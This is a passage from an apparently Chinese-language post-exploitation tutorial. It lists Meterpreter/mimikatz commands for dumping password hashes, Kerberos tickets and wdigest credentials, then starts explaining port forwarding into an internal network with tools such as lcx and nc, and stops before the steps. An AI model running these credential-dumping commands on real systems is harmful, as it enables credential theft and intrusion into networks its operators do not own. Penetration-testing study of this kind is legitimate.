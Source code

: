①抓取系统hash值

```
msv 
```

  

`![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
`

  

②抓取系统票据

```
kerberos 
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

③获取系统账号信息

```
wdigest
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

④抓取hash

```
mimikatz_command -f samdump::hashes
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

⑤查看系统进程

```
mimikatz_command -f handle::list 
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

===

  

===

**端口转发**
========

  

端口转发是转发一个网络端口从一个网络节点到另一个网络节点的行为，拿到公网shell和内网shell之后，无法直接接入目标内网，需要进行端口转发将内网的端口转发到我们的网络环境可以接入的跳板机上面从而进行连接，常见的端口转发方式有很多，例如lcx工具转发，nc反弹，socket代理， ssh隧道代理转发等等，这里暂时只对LCX工具进行介绍，其他方式后续陆续讲解。LCX端口转发步骤如下：  
